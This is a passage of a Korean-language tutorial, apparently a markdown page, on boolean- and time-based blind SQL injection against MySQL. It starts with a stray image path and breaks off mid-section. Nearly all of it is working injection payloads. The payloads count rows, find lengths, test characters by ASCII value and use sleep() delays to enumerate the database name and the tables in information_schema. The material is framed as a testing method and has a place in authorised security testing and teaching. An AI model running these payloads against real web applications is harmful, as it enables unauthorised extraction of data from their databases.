 4. 데이터 추출
- 테이블 안의 행 갯수 결정
```bash
AND (SELECT count(*) FROM 테이블명)=1--+     (결과:거짓)
AND (SELECT count(*) FROM 테이블명)=2--+     (결과:거짓)
AND (SELECT count(*) FROM 테이블명)=K--+     (결과:참)   <--- 테이블 행의 갯수는 K개임.
```
- 길이 결정
```bash
AND LENGTH((SELECT 컬럼명 FROM 테이블명 LIMIT 0,1))=1--+      (결과:거짓)     
AND LENGTH((SELECT 컬럼명 FROM 테이블명 LIMIT 0,1))=2--+      (결과:거짓)     
AND LENGTH((SELECT 컬럼명 FROM 테이블명 LIMIT 0,1))=N--+      (결과:참)
```
- 각 문자 식별
```bash
AND ASCII(SUBSTRING((SELECT 컬럼명 FROM 테이블명 LIMIT 0,1),1,1))={여기에 모든 ASCII코드값(DEC) 대입}--+
AND ASCII(SUBSTRING((SELECT 컬럼명 FROM 테이블명 LIMIT 0,1),2,1))={여기에 모든 ASCII코드값(DEC) 대입}--+ 
AND ASCII(SUBSTRING((SELECT 컬럼명 FROM 테이블명 LIMIT 0,1),N,1))={여기에 모든 ASCII코드값(DEC) 대입}--+  
```

# Time 기반 Blind SQL Injection 테스트 방법
1. 데이터베이스와 통신하는 엔드포인트 식별
Boolean과 동일
2. 잠재적 취약 여부 검증
SQL 쿼리의 결과가 참/거짓에 따라 HTTP 응답 내용에서는 차이를 찾을 수 없으니 서버의 응답 시간을 제어할 수 있는지 시도. 만약 시간 지연이 발생한다면 Time 기반 SQL Injection에 취약하다
```bash
AND if(1=1,sleep(10),false)--+      (결과:참)    <--- 시간 지연 발생
AND if(1=0,sleep(10),false)--+      (결과:거짓)   
```
3. 데이터베이스 구조 파악
### 데이터베이스명
- 길이 결정
```bash
AND if(LENGTH(database())=1, sleep(10), false)--+      (결과:거짓)     
AND if(LENGTH(database())=2, sleep(10), false)--+      (결과:거짓)     
AND if(LENGTH(database())=N, sleep(10), false)--+      (결과:참)      <--- 데이터베이스명의 길이는 N임.
```
- 각 문자 식별 : SQL 쿼리의 결과가 참이 나올때까지 아스키코드값을 대입하여 비교한다.
```bash
AND if(ASCII(SUBSTRING(database(),1,1))={여기에 모든 ASCII코드값(DEC) 대입}, sleep(10), false)--+
AND if(ASCII(SUBSTRING(database(),2,1))={여기에 모든 ASCII코드값(DEC) 대입}, sleep(10), false)--+ 
AND if(ASCII(SUBSTRING(database(),N,1))={여기에 모든 ASCII코드값(DEC) 대입}, sleep(10), false)--+ 
```

### 테이블명
- 테이블 갯수 결정
```bash
AND if((SELECT count(table_name) FROM information_schema.tables WHERE table_schema=database())=1,sleep(10),false)--+     (거짓)
AND if((SELECT count(table_name) FROM information_schema.tables WHERE table_schema=database())=2,sleep(10),false)--+     (거짓)
AND if((SELECT count(table_name) FROM information_schema.tables WHERE table_schema=database())=K,sleep(10),false)--+     (참)   <--- 테이블 갯수는 K개임.
```
- 테이블명 길이 결정
```bash
AND if(LENGTH((SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1))=1, sleep(10), false)--+          (거짓)     
AND if(LENGTH((SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1))=2, sleep(10), false)--+          (거짓)     
AND if(LENGTH((SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1))=N, sleep(10), false)--+          (참)      <--- 테이블명의 길이는 N임.
```
- 각 문자 식별